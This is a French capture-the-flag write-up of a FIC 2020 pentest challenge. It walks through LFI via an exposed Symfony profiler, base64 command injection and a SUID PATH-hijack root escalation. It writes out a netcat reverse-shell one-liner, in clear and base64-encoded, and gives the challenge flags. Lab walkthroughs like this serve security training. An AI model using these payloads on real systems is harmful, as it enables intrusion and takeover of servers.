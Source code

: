 # What The FIC

## Découvrez les solutions d’un des challenges pentest proposés au FIC 2020.  

### Enoncé : Vous avez accès à une machine d’attaque, et vous devez prendre le contrôle complet du server victime

### Niveau : Moyen

### Temps : 20/25 mns

### Description

L'utilisation d'une API/SPA (Single Page Application) ne veut pas dire que vous êtes en sécurité.
Trouvez votre chemin pour devenir root.

# Solution 

Le participant devait lancer la commande suivante de façon à identifier les ports ouverts sur la machine : `nmap -sV -Pn -p- 192.168.1.24`
Suite à cela, il remarque que les ports 4201, 8000 et 22 sont disponibles.


Sur le port 4201 après lecture des fichiers javascripts, nous trouvons une interface web codée en Angular.

![Login page](images/loginpage.png)
**Source: Orange Cyberdefense**


Suite à la soumission de données de test, nous voyons que notre SPA discute avec une API sur le port 8000 utilisant le framework symfony. Le but de l'attaquant est donc de trouver un compte pour voir ce qu'il se cache derrière cette API.
Tout d'abord, il faut savoir que sur ce framework backend, il est de coutume de créer des fichiers de type `Fixture`.


Ces fichiers servent à agrémenter la base de donnée à l'aide d'object php. Par la suite les développeurs jouent avec les migrations pour faire évoluer la base.

Par ailleurs, les personnes qui sont familières avec symfony savent qu'il est possible d'utiliser le profiler de la façon suivante : `http://<target>/app_dev.php/_profiler/open?file=<PATH>` pour faire une "Local File Inclusion"(LFI).

Pour cela, il y avait deux façons de faire : 

* La première consiste à profiter de la négligence du développeur qui a laissé le profiler de symfony sur un environnement de production ce qui lui permet, via une LFI, de lire des fichiers. 


En l'occurrence, il lui fallait trouver le fichier `Fixture.php` dans `src/AppBundle/DataFixture/ORM/`

Il obtenait donc l'utilisateur `clemence97`


![LFI](images/LFI.png)
*Source: Orange Cyberdefense*

* La seconde possibilité était d'utiliser un outil de fuzzing type Gobuster/dirsearch pour trouver la route suivante : 

![Account](images/account.png)
*Source: Orange Cyberdefense*

Une fois le compte obtenu, il suffit de se connecter sur la webapp pour se rendre compte qu'il existe un bouton `check status` qui va sûrement vérifier la disponibilité du serveur.


![Send base64](images/sendb64.png)
*Source: Orange Cyberdefense*

En regardant de plus près la requête, nous nous apercevons qu'une chaine de caractère en base64 est envoyée au serveur en paramètre `GET`.

Lorsqu'on décode celle-ci `echo "bG9jYWxob3N0" | base64 --decode`, nous obtenons: `localhost`

Nous supposons qu'un ping est effectué et allons donc essayer de faire de l'injection de commande pour obtenir un reverse shell sur la machine.

Pour cela, nous créons un serveur d'écoute (192.168.1.24 sur le port 1337) qui réceptionnera notre connexion.
Puis nous encodons le reverse shell suivant en base64: `;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.24 1337 >/tmp/f` 
Nous obtenons alors ce payload : `O3JtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8L2Jpbi9zaCAtaSAyPiYxfG5jIDE5
Mi4xNjguMS4yNCAxMzM3ID4vdG1wL2YK` et l'ajoutons dans le paramètre vulnérable.

![ls](images/ls-fic2.png)
*Source: Orange Cyberdefense*

Une fois le shell obtenu, il suffit de se rendre dans le home de l'utilisateur giorgio pour récupérer le contenu du fichier `user.txt` : `OCD{T4ke_Car3_4b0ut_RIghtS}`


## Elévation de privilèges 

A ce stade du challenge, le candidat se rend compte que les droits du shell obtenus sont limités (Utilisateur `giorgio`). Il devra ainsi élever ses privilèges afin d'obtenir les privilèges `root` et par la même occasion le dernier flag du challenge. 

Suite à de rapides investigations, nous comprenons ce que nous devons exploiter afin d'élever nos privilèges :

![lslah](images/lslah.png)
*Source: Orange Cyberdefense*


Il y a en effet un binaire SUID root nommé  `HarmfulBinary`, ainsi qu'un fichier caché (`.hint.txt`).

Nous essayons d'interagir avec ce binaire afin de déceler d'éventuelles vulnérabilités :

![execute](images/execute.png)
*Source: Orange Cyberdefense*


L'analyse de ce fichier caché *qui fait penser à la sortie de la commande strace sur le binaire* nous permet de déceler un certain nombre d'appels système `execve` intéressants :

![strace](images/strace2.png)
*Source: Orange Cyberdefense*


Le binaire HarmfulBinary essaye d'exécuter sans succès (`No such file or directory`) un autre binaire appelé `reallysuspiciousbin` via plusieurs chemins différents. Ces chemins utilisés nous font penser à la variable d'environnement `PATH`. Nous vérifions cela en affichant le contenu de cette variable d'environnement :

![path](images/path.png)
*Source: Orange Cyberdefense*


L'utilisateur giorgio maîtrisant cette variable d'environnement qui lui est propre, l'idée de cette étape est tout d'abord de modifier cette variable d'environnement afin d'inclure un chemin qu'on maîtrise (sur lequel on a les droits d'écriture) :

![setpath](images/setpath.png)
*Source: Orange Cyberdefense*


Il est possible de vérifier que le binaire `/home/giorgio/reallysuspiciousbin` est bien appelé (mais n'est pas trouvé car le binaire n'existe pas dans `/home/giorgio`) en réitérant la commande `strace`. L'idée est maintenant de créer un binaire malveillant appelé `reallysuspiciousbin` dans notre répertoire personnel pour qu'il soit exécuté avec les droits root lors de l'appel au binaire `HarmfulBinary`. 


Pour cela, nous utiliserons un binaire compilé en C. Il n'est pas possible d'utiliser un script du fait que le Kernel supprime les droits suid sur des fichiers de type script.

Le rôle de ce binaire est de créer un interpréteur Bash avec les droits suid root :

![c](images/c.png)
*Source: Orange Cyberdefense*


Notre binaire `reallysuspiciousbin` étant prêt, il suffit de réexecuter de nouveau le binaire SUID `HarmfulBinary` pour activer notre payload :

![root](images/root.png)
*Source: Orange Cyberdefense*


Il ne nous reste plus qu'à exécuter via la commande suivante `cat /root/root.txt` pour obtenir le flag `OCD{Priv3esc_Is_Life_M@mene}`